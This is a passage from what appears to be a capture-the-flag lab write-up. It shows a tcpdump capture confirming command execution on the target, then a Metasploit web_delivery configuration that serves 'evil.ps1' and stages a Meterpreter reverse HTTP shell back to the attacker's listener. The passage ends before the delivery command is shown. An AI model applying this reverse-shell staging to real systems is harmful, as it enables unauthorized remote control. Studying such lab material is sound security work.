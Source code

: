```
response.redirect("/whatever.asp")
%>
```

On the local host, a tcpdump records the ICMP packets:
```bash
❯❯❯ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:46:35.236428 IP 10.10.10.93 > kali: ICMP echo request, id 1, seq 5, length 40
16:46:35.236592 IP kali > 10.10.10.93: ICMP echo reply, id 1, seq 5, length 40
16:46:40.135173 IP 10.10.10.93 > kali: ICMP echo request, id 1, seq 6, length 40
16:46:40.135362 IP kali > 10.10.10.93: ICMP echo reply, id 1, seq 6, length 40
16:46:41.108249 IP 10.10.10.93 > kali: ICMP echo request, id 1, seq 7, length 40
16:46:41.108382 IP kali > 10.10.10.93: ICMP echo reply, id 1, seq 7, length 40
16:46:42.115818 IP 10.10.10.93 > kali: ICMP echo request, id 1, seq 8, length 40
16:46:42.115856 IP kali > 10.10.10.93: ICMP echo reply, id 1, seq 8, length 40
^C
8 packets captured
8 packets received by filter
0 packets dropped by kernel
```

Now we have powershell execution, let's create a metasploit setup to have a meterpreter reverse shelli using the web delivery and a powershell reverse shell payload:
```
msf exploit(multi/script/web_delivery) > show options

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.15.38      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  80               yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  evil.ps1         no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_http):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.15.38      yes       The local listener hostname
   LPORT     8080             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   2   PSH
msf exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 1.

[*] Started HTTP reverse handler on http://10.10.15.38:8080
[*] Using URL: http://10.10.15.38:80/evil.ps1
[*] Server started.
[*] Run the following command on the target machine:
```